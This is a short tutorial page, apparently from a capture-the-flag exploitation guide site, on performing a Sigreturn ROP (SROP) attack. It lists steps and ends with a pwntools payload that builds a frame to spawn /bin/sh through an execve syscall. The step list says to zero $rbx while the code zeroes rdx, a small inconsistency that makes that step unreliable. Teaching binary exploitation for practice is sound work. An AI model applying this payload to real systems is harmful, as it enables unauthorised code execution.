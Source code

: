 ```yaml
---
title: How to perform a Sigreturn ROP attack
---
```


This guide shows you how to perform a Sigreturn ROP (SROP) attack.

## Identify available gadgets
Check for gadgets using `ROPgadget --binary ./vuln | grep "<register>"`.

If there are no easy-to-use `$rax` or `syscall` gadgets, SROP attacks may not be the correct attack to use.

## Locating `/bin/sh`

Refer to the associated guide to find or add a `/bin/sh` string to the program.

<LinkCard title="How to add BINSH for ROP attacks" href="/pwn/guides/binsh/" description="Guide to find or add a `/bin/sh` string to a program during execution"/>

## Find offset to return address

Find the offset from your buffer to the return address.

<LinkCard title="Finding offsets to return addresses" href="/pwn/guides/cyclic/" description="Guide to finding offset from a buffer to the return address"/>

## Build payload
You will need to do set `$rax` to `15`/`0xf` in your payload, then call a `syscall` gadget.

Afterward, create an instance of pwntool's `SigreturnFrame`. Then, in no particular order:
- Get the frame to change `$rax` to `59`/`0x3b`
- Get the frame to change `$rdi` to the address of a `/bin/sh` string
- Get the frame to change `$rsi` to `0`/`0x0`
- Get the frame to change `$rbx` to `0`/`0x0`
- Get the frame to change `$rip` to the address of a `syscall` gadget.

<Aside type="tip">
    The `SigreturnFrame` class expects numbers, so there is no need to wrap your values in `p64()`.
</Aside>

Afterward, convert the object into bytes with `bytes(frame)` and append it into your payload. Here is an example payload:

```python
payload = b"A" * 72
payload += p64(rop.rax.address)
payload += p64(0xf)
payload += p64(rop.syscall.address)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = BINSH
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = rop.syscall.address

payload += bytes(frame)
```